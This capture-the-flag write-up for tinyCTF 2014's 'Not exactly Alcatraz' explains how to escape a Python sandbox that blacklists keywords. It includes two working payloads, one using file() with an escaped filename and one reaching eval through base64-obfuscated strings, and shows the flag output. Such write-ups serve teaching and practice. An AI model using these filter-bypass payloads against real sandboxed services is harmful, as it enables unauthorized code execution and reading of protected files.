 # tinyCTF 2014: Not exactly Alcatraz

**Category:** Exploitable
**Points:** 200
**Description:**

> [Exploit this](pwn200.zip)
> Over here: `nc 54.69.118.120 6000`
> Flag is in `/home/pybaby/flag.txt`

## Write-up

Let’s unzip [the provided `pwn200.zip` file](pwn200.zip):

```bash
$ unzip pwn200.zip
Archive:  pwn200.zip
  inflating: pwn200
```

The extracted `pwn200` file is a Python script.

```bash
$ python pwn200

Welcome to Safe Interactive CPython Shell (SICS)
================================================

Rules:
    - Wash your dishes
    - Don't eat the yellow snow
    - Do not import anything
    - No peeking at files!

baby@sics:~$
1 + 1
2
```

The script evaluates any Python code we enter, as long as it doesn’t contain the blacklisted words `import`, `open`, `flag`, `eval`, or `exec`. We need to find a way to break out of the sandbox and still read files.

The simplest solution is to use `file` instead of `open`:

```python
file('/home/pybaby/fl\x61g.txt').read()
```

Another possible solution that allows more generic code execution is the following:

```python
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
```

`__builtins__.__dict__['ZXZhbA=='.decode('base64')]` is equivalent to `eval`, and `'b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64')` is `open('/home/pybaby/flag.txt').read()`. This prints the contents of the `/home/pybaby/flag.txt` file:

```
baby@sics:~$
__builtins__.__dict__['ZXZhbA=='.decode('base64')]('b3BlbignL2hvbWUvcHliYWJ5L2ZsYWcudHh0JykucmVhZCgp'.decode('base64'))
flag{python_sandboxing:_harder_than_teaching_your_mom_dota}

this is bad.

BitK vous fait des gros bisous

baby@sics:~$
```

The flag is `flag{python_sandboxing:_harder_than_teaching_your_mom_dota}`.

## Other write-ups and resources

* <http://sugarstack.io/tinyctf-exp-200.html>
* <https://poerhiza.github.io/ctf/2014/10/05/tinyCTF-write_ups-not_exactly_alcatraz/>
* [_Escaping Python sandboxes_](https://isisblogs.poly.edu/2012/10/26/escaping-python-sandboxes/)
* <https://github.com/evanowe/TinyCTF2014-writeups/blob/master/README.md#not-exactly-alcatraz>
* <https://github.com/jesstess/tinyctf/blob/master/alcatraz/alcatraz.md>
* <http://barrebas.github.io/blog/2014/10/03/tinyctf/>
